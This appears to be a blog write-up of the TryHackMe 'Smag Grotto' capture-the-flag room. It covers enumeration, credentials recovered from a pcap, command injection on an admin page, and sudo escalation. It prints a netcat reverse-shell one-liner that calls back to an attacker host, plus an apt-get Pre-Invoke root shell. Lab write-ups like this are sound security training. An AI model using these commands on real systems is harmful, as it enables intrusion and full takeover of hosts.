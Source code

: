 ```yaml
---
layout: post
tags: wireshark .pcap 
---
```

![banner](/assets/img/thm/smag/banner.png)


**Room by:** 
**Difficulty:** Easy
**Url:** [TryHackMe.com - Smag Grotto](https://tryhackme.com/room/smaggrotto)


## Overview:

Find .pcap file at /mail and analyze with Wireshark. Login to /admin.php and exploit command injection. Exploit cron job to gain user, and then a GTFOBin for root.


## ~ Enumeration
**Start with an nmap scan `nmap -sV -sC -oN nmap/scan smag.thm`. Then we will run Gobuster against `http://smag.thn'.**

**Nmap** <br />

```bash
# Nmap 7.80 scan initiated Wed Jul 29 20:32:03 2020 as: nmap -sC -sV -oN scan 10.10.207.150
Nmap scan report for 10.10.207.150
Host is up (0.024s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Smag
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

**HTML**
<br />

[![html](/assets/img/thm/smag/welcome.png)](/assets/img/thm/smag/welcome.png)

<br />

> Nothing obvious so far

<br />

**Gobuster**
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.131.117
[+] Threads:        10
[+] Wordlist:       /opt/wordlists/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/08 11:48:07 Starting gobuster
===============================================================
// (Status: 200)
/mail (Status: 301)
===============================================================
2020/12/08 11:48:24 Finished
===============================================================
```
<br />

**If we go to `/mail` you will find a `.pcap` file to download. The page instructs you to download using `wget`.**

`wget http://smag.thm/aW1wb3J0YW50/dHJhY2Uy.pcap`


**Now we have the file, lets analyze it using Wireshark.**

[![wireshark](/assets/img/thm/smag/wireshark1.png)](/assets/img/thm/smag/wireshark1.png)

**Follow the HTTP stream:**
<br />

[![stream](/assets/img/thm/smag/wireshark2.png)](/assets/img/thm/smag/wireshark2.png)

**This gives us a username, password and a domain name to add to `/etc/hosts`**
[![dev](/assets/img/thm/smag/devsmag.png)](/assets/img/thm/smag/devsmag.png)


## ~ Foothold

If we browse to `/login.php` we can log in using the creds we found earlier. And then we are greeted a page, where we can input commands. For a simple PoC we will host a http server on our machine and try to `wget` from the command box.

**`wget 'http://10.10.10.10:8000/test.txt`**

<br />

[![Success](/assets/img/thm/smag/wget.png)](/assets/img/thm/smag/wget.png)

**Revers Shell:**
We are going to set up and send a netcat reverse shell.
<br />
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`

[![admin](/assets/img/thm/smag/adminphp.png)](/assets/img/thm/smag/adminphp.png)
<br />  

[![ncat](/assets/img/thm/smag/nc.png)](/assets/img/thm/smag/nc.png)

## ~ Privesc to user:


## `Sudo -l`
```
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get

```


`sudo /usr/bin/apt-get update -o APT::Update::Pre-Invoke::=/bin/sh`


